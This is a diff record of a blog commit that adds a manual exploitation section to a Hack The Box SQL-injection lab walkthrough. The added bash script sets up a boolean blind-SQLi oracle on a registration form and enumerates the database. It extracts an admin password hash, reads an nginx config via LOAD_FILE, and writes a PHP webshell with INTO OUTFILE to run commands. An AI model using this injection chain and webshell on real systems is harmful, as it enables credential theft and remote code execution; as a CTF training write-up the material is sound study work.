

Before and after one commit to Kayo-b/kayo-b.github.io, a Jekyll site: the page built from _posts/2026-03-04-htb-sqli-fundamentals-step-by-step.md, in a window 1280 px wide and 1400 px high, scrolled down 6653 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 6976 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add manual boolean-SQLi approach section to HTB SQLi guide

````diff
--- a/_posts/2026-03-04-htb-sqli-fundamentals-step-by-step.md
+++ b/_posts/2026-03-04-htb-sqli-fundamentals-step-by-step.md
@@ -183,6 +183,114 @@ Recovered flag:
 061b1aeb94dec6bf5d9c27032b3c1d8d
 ```
 
+## 8) Manual approach (no sqlmap extraction)
+
+Use this fully manual sequence, driven by boolean SQLi + redirect oracle.
+
+```bash
+BASE='https://154.57.164.68:30877/api/register.php'
+
+oracle() {
+  local cond="$1"
+  local u="u$(date +%s%N | cut -c1-13)$RANDOM"
+  local payload="aaaa-bbbb-1111') OR (${cond})-- -"
+  local redir
+  redir=$(curl -k -s -o /dev/null -w '%{redirect_url}' -X POST "$BASE" \
+    --data-urlencode "username=$u" \
+    --data-urlencode 'password=Abcd!234' \
+    --data-urlencode 'repeatPassword=Abcd!234' \
+    --data-urlencode "invitationCode=$payload")
+  [[ "$redir" == *"login.php?s=account+created+successfully!"* ]]
+}
+
+infer_len() {
+  local expr="$1" max="${2:-200}" n
+  for n in $(seq 1 "$max"); do
+    if oracle "LENGTH(${expr})=${n}"; then echo "$n"; return 0; fi
+  done
+  return 1
+}
+
+infer_char() {
+  local expr="$1" pos="$2" lo=32 hi=126 mid
+  while [ $lo -le $hi ]; do
+    mid=$(( (lo+hi)/2 ))
+    if oracle "ASCII(SUBSTRING(${expr},${pos},1))>${mid}"; then
+      lo=$((mid+1))
+    else
+      hi=$((mid-1))
+    fi
+  done
+  printf "\\$(printf '%03o' "$lo")"
+}
+
+infer_string() {
+  local expr="$1" maxlen="${2:-200}" len out="" i c
+  len=$(infer_len "$expr" "$maxlen") || return 1
+  for i in $(seq 1 "$len"); do
+    c=$(infer_char "$expr" "$i")
+    out+="$c"
+  done
+  echo "$out"
+}
+
+# Run these in order:
+
+# 0) Confirm SQLi oracle
+oracle "1=1" && echo TRUE
+oracle "1=2" && echo FALSE || echo FALSE
+
+# 1) Enumerate databases (discover chattr)
+db_count=$(infer_string "(SELECT COUNT(*) FROM information_schema.schemata)" 3)
+echo "db_count=$db_count"
+for i in $(seq 0 $((db_count-1))); do
+  name=$(infer_string "(SELECT schema_name FROM information_schema.schemata LIMIT ${i},1)" 64)
+  echo "db[$i]=$name"
+done
+
+# 2) Enumerate tables in chattr
+t_count=$(infer_string "(SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='chattr')" 3)
+echo "table_count=$t_count"
+for i in $(seq 0 $((t_count-1))); do
+  t=$(infer_string "(SELECT table_name FROM information_schema.tables WHERE table_schema='chattr' LIMIT ${i},1)" 64)
+  echo "table[$i]=$t"
+done
+
+# 3) Enumerate columns in Users
+c_count=$(infer_string "(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='chattr' AND table_name='Users')" 3)
+echo "col_count=$c_count"
+for i in $(seq 0 $((c_count-1))); do
+  c=$(infer_string "(SELECT column_name FROM information_schema.columns WHERE table_schema='chattr' AND table_name='Users' LIMIT ${i},1)" 64)
+  echo "col[$i]=$c"
+done
+
+# 4) Q1: Extract admin password hash
+admin_hash=$(infer_string "(SELECT Password FROM chattr.Users WHERE Username='admin' LIMIT 0,1)" 200)
+echo "admin_hash=$admin_hash"
+
+# 5) Q2: Extract web root path from nginx config via LOAD_FILE
+root_expr="(SELECT TRIM(SUBSTRING_INDEX(SUBSTRING_INDEX(LOAD_FILE('/etc/nginx/sites-enabled/default'),'root ',-1),';',1)))"
+web_root=$(infer_string "$root_expr" 128)
+echo "web_root=$web_root"
+
+# 6) Q3: RCE - write webshell with UNION INTO OUTFILE
+hex_shell="0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e"  # <?php system($_GET['cmd']); ?>
+u="r$RANDOM$RANDOM"
+payload="aaaa-bbbb-1111') UNION SELECT ${hex_shell} INTO OUTFILE '${web_root}/shell.php'-- -"
+
+curl -k -s -o /dev/null -X POST "$BASE" \
+  --data-urlencode "username=$u" \
+  --data-urlencode 'password=Abcd!234' \
+  --data-urlencode 'repeatPassword=Abcd!234' \
+  --data-urlencode "invitationCode=$payload"
+
+# 7) Verify RCE + read flag
+curl -k -s 'https://154.57.164.68:30877/shell.php?cmd=id'
+flag_file=$(curl -k -s "https://154.57.164.68:30877/shell.php?cmd=ls%20/%20|%20grep%20'^flag_'")
+echo "flag_file=$flag_file"
+curl -k -s "https://154.57.164.68:30877/shell.php?cmd=cat%20/${flag_file}"
+```
+
 ## Final outputs
 
 1. Admin hash: `$argon2i$v=19$m=2048,t=4,p=3$dk4wdDBraE0zZVllcEUudA$CdU8zKxmToQybvtHfs1d5nHzjxw9DhkdcVToq6HTgvU`
````
